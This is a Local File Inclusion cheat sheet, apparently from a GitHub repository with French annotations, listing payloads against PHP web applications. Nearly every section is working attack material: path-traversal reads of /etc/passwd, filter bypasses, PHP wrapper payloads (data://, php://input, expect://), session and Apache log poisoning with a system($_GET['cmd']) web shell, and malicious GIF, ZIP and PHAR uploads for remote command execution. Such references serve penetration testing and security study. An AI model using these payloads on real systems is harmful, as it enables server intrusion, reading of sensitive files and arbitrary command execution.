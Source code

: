 ## Basic

Basic LFI

```sh
/index.php?language=/etc/passwd
```

LFI with Path Traversal

```sh
/index.php?language=../../../../etc/passwd
```

LFI with name prefix

```sh
/index.php?language=/../../../etc/passwd
```

LFI with approved path

```sh
/index.php?language=./languages/../../../../etc/passwd

```

## Bypass Techniques

Bypass basic path traversal filter

```sh
/index.php?language=....//....//....//....//etc/passwd
```

Bypass filters with URL encoding

```sh
/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

Bypass appended extension with path truncation (obsolete)

```sh
/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Bypass appended extension with null byte (obsolete)

```sh
/index.php?language=../../../../etc/passwd%00
/index.php?language=../../../../etc/passwd%00.php
```

Read PHP with base64 filter

```
/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

## Code Execution

### With PHP Wrappers

Verifier la version de PHP `/etc/php/X.Y/apache2/php.ini`

> Si on n'a `allow_url_include = On` Ou `extension=expect`


**data**

```sh
/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

**input** 

```sh
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

**expectr** 

```sh
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

### With Session 

Read PHP session parameters

```sh
/index.php?language=/var/lib/php/sessions/sess_[SESSIONS_ID]
```

Poison PHP session with web shell

```sh 
/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E  
```

RCE through poisoned PHP session 

```sh
/index.php?language=/var/lib/php/sessions/sess_[SESSIONS_ID]&cmd=id
```

### Log-Poisoning 

L'empoisonnement des journaux est une technique utilisée pour obtenir un shell inversé à partir d'une vulnérabilité LFI. 
Pour le faire fonctionner, un attaquant tente d'injecter une entrée malveillante dans le journal du serveur (user-agent).

Fichier journal apache pour avoir la possibilité d'utiliser l'empoisonnement du journal:

```http
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/apache2/other_vhosts_access.log
```

Pour que cela se produise, le répertoire doit disposer des autorisations de lecture et d'exécution


Poison server log

```sh
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'
```

RCE through poisoned PHP session 

```sh
/index.php?language=/var/log/apache2/access.log&cmd=id  
````

```http
http://vulnweb.com/var/log/apache2/access.log&cmd=id
```

## LFI + Upload

**GIF**

```sh
# Create malicious image
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

# RCE with malicious uploaded image
/index.php?language=./profile_images/shell.gif&cmd=id
```

**ZIP** 

```sh
# Create malicious zip archive 'as jpg'
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

# RCE with malicious uploaded zip
/index.php?language=zip://shell.zip%23shell.php&cmd=id

```

**PHAR**

```sh
## content of rshell.php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
?>

# Create malicious phar 'as jpg'
php --define phar.readonly=0 rshell.php && mv shell.phar shell.jpg

# RCE with malicious uploaded phar
/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
